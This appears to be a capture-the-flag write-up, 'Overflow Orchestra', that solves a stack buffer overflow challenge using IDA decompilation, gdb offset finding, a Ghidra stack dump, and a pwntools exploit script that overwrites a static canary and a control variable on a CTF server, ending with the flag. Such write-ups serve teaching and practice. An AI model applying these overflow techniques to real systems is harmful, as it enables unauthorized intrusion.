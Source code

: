 +++
title = 'Overflow Orchestra'
date = '2024-09-05'
authors = ["Achintya J"]
+++




This is how the canary is implemented here (This is the decompiled function through IDA)

		v6 = 0LL;
		v5 = 0x6C9B1F74;
		puts("Oops! I hope that wasn't your plan all along.");
		fflush(_bss_start);
		gets(v3, argv);
		v4 = v5 ^ 0x6C9B1F74;
		if ( v5 != 0x6C9B1F74 )
		{
		puts("Surprise! Something went wrong, didn't it?");
		puts("Who let the bugs out?");
		exit(1);
		}

This means, we effectively have the canary leaked... 

and,

		if ( v6 == 0xDEADBEEF )
		{
		puts("Well, I guess you've earned this...");
		system("cat flag.txt");
		}
		else
		{
		printf("code == 0x%llx\n", v6);
		printf("code != 0x%llx :(\n", 3735928559LL);
		puts("Well, that was unexpected...");
		}
		exit(0);
		}

This means, we still got to rewrite the `v6` variable. 

Let's analyse using `gdb`. Run the following commands in succession, 

		gdb ./vuln
		disassemble main

We can see in the disassembly that at the address `main+79` or `0x0000000000001238` there is an `xor` instruction. This is what we need to see, because we want to figure out the number of bytes we should write to change the value being xored. 

After running, we can enter this string "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" and see that the RAX registry contains, "Ab6Ab7Ab", which is at an offset of 48.

Hence, after 48 bytes, whatever is written is being xored with `0x6c9b1f74`. If we need the answer to be 0, we need to send in the same data here. We can also see this in the stack dump in ghidra,

		undefined main()
		undefined         AL:1           <RETURN>
		undefined8        Stack[-0x10]:8 ToRewrite                               XREF[3]:     001011f5(W), 
		undefined8        Stack[-0x18]:8 TheCanary                               XREF[2]:     001011fd(W), 
		undefined8        Stack[-0x20]:8 xored                                   XREF[2]:     0010123e(W), 
		undefined1[40]    Stack[-0x48]   input                                   XREF[1]:     00101223(*)  

We can see that right after the canary is the variable we want to rewrite into `0xdeadbeef`. Thus, this script will be do everything,

		from pwn import *
		context.binary = binary = ELF("./vuln")
		context.log_level = "critical"
		payload = flat([
			b"A"*48,
			p64(0x6c9b1f74),
			p32(0xdeadbeef)
			])
		p = remote('10.21.232.38', 7002)
		p.sendline(payload)
		p.interactive()

flag: `iitmCTF{0v3rfl0w_0p3r4_t1c}`
